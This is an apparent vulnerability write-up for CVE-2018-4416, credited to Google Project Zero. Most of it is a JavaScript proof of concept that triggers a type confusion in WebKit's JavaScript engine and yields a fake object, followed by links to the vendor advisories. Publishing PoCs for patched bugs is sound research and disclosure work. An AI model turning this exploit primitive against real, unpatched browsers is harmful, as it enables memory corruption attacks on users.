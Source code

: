 # CVE-2018-4416

- Report: Aug 2018
- Fix: Nov 2018
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
function gc() {
    for (let i = 0; i < 10; i++) {
        let ab = new ArrayBuffer(1024 * 1024 * 10);
    }
}

function opt(obj) {
    // Starting the optimization.
    for (let i = 0; i < 500; i++) {

    }

    let tmp = {a: 1};

    gc();
    tmp.__proto__ = {};

    for (let k in tmp) {  // The structure ID of "tmp" is stored in a JSPropertyNameEnumerator.
        tmp.__proto__ = {};

        gc();

        obj.__proto__ = {};  // The structure ID of "obj" equals to tmp's.

        return obj[k];  // Type confusion.
    }
}

opt({});

let fake_object_memory = new Uint32Array(100);
fake_object_memory[0] = 0x1234;

let fake_object = opt(fake_object_memory);
print(fake_object);
```

## Reference

- [Apple](https://support.apple.com/en-us/HT209195)
- [WebKit](https://bugs.webkit.org/show_bug.cgi?id=189124)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1652)
